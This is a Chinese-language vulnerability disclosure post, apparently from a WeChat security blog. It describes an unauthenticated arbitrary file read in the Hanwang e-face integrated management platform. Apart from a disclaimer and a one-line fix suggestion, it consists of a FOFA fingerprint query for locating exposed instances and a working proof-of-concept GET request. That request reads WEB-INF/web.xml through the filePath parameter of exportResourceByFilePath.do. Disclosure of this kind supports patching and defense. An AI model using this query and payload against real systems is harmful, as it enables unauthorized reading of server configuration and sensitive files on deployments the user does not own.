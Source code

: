 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk5MDYxODcwMA==&mid=2247483950&idx=1&sn=970c288f654adcdc1315375a64c0b374

#  汉王e脸通综合管理平台 exportResourceByFilePath.do 任意文件读取漏洞  
原创 zz  星络安全实验室   2025-07-20 07:11  
  
<table><tbody><tr><td data-colwidth="576"><section><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></section></td></tr></tbody></table>  
漏洞详情：  
  
汉王e脸通综合管理平台的exportResourceByFilePath.do接口存在未授权文件读取安全缺陷。攻击者能够绕过身份验证机制，通过精心构造的请求参数向该接口提交任意系统文件路径，从而导致服务器敏感信息被非法获取，严重威胁系统数据安全性和完整性  
  
漏洞复现：  
  
fofa：  

```
icon_hash=&#34;1380907357&#34;
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVfkiankw0tcSNyVgbWw5T3Cn32oK5onibRRWjWIPvVOkibya8nnH0PM7HkNCvibZ3l5fAC2mO1xzQ9XUQ/640?wx_fmt=png&from=appmsg "")  
  
poc：  

```
GET /manage/leaveList/exportResourceByFilePath.do?filePath=WEB-INF/web.xml HTTP/1.1
Host:xx
```

  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVfkiankw0tcSNyVgbWw5T3Cn5IW9ia7tTwibeKzib0lGGrAtVFoV5uQ9khpjHq0IETqM9nE2vibsszR0mg/640?wx_fmt=png&from=appmsg "")  
  
修复意见：  
  
关注厂商动态，升级至安全版本  
  
